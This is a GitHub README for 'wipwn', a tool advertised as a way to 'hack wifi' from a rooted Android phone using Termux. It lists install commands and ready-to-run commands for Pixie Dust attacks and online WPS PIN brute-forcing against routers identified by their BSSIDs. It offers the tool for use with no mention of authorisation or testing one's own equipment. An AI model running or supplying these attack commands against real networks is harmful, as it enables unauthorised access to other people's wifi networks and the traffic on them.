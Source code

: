 # WIPWN
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/anbuinfosec/wipwn
cd wipwn
chmod +x main.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python main.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python main.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


### Thanks For Star🙏👨‍💻

[![Stargazers repo](https://reporoster.com/stars/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)

### Thanks For Fork 🙏👨‍💻

[![Forkers repo](https://reporoster.com/forks/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
